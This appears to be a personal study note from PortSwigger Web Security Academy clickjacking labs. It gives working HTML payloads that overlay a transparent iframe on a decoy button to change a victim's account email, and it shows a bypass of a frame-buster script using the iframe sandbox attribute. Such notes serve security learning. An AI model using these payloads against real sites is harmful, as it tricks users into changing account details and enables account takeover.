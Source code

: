 # Clickjacking

## Clickjacking with form input data from a URL parameter
- Overlay an iframe with a URL to the change email resource, with an email in there as the query parameter. Position the "Click Me" button 
```
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 465px;
        left: 90px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0f00cb04fe73b982b56b6e00fe0054.web-security-academy.net/my-account?email=evil@hacker1.net"> </iframe>
```
- Clickjacking with a frame buster script
    - [Stanford framebusting article](https://seclab.stanford.edu/websec/framebusting/)

The web page uses this javascript code to detect if it is embedded in an iframe, and replace the contents of the body if it is:
```
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```
We can exploit the iframe sandbox attribute to bypass this by assigning it to the "allow-forms" directive. [w3schools iframe sandbox](https://www.w3schools.com/tags/att_iframe_sandbox.asp)
```
<iframe src="https://0a2f00850357cb87b9c1f11a00e70021.web-security-academy.net/my-account?email=evil@hacker.net" sandbox="allow-forms">
</iframe>
```